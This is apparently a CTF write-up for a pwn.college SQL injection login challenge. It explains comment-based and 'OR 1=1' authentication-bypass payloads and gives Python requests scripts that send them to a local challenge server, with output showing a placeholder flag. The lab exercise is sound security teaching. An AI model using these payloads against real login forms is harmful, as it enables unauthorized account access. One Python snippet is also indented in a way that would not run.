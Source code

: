 ```sql


-- When we pass the sql injection i.e (  " --  ), our query looks like this.
SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"
--                                            admin " --
-- it goes and ignore the Password part, because we are using (--) means comment in query language.
SELECT rowid, * FROM users WHERE username = "admin " --" AND password = "{password}"
-- the final query be like this.
SELECT rowid, * FROM users WHERE username = "admin " 



-- Now when we use the query(  flag " --  ), this will return flag user without pass.
SELECT rowid, * FROM users WHERE username = "flag " -- " AND password = "{password}"

--  Or this query (  " OR 1=1 --   )will return the first user in user_list, and we are authenticated & we get the flag.
SELECT rowid, * FROM users WHERE username = " " OR 1=1 -- " AND password = "{password}"
```

* Example in python script.
* This query will return the first user in the user_list, 

```py
import requests as rq

    url = "http://challenge.localhost:80"
    data = {
        "username": '" or 1=1--',
        "password": "admin"
        }
    response = rq.post(url, data=data)
    print(response, "\n", response.text)
```
* This query will return the details about the flag user, which is `flag`.

```py
import requests as rq
    url = "http://challenge.localhost:80"
    data = {
        "username": 'flag" --',
        "password": "admin"
        }
    response = rq.post(url, data=data)
    print(response, "\n", response.text)
```

* Output :
  
```plain
<Response [200]> 
 pwn.college{Flag Here}
```
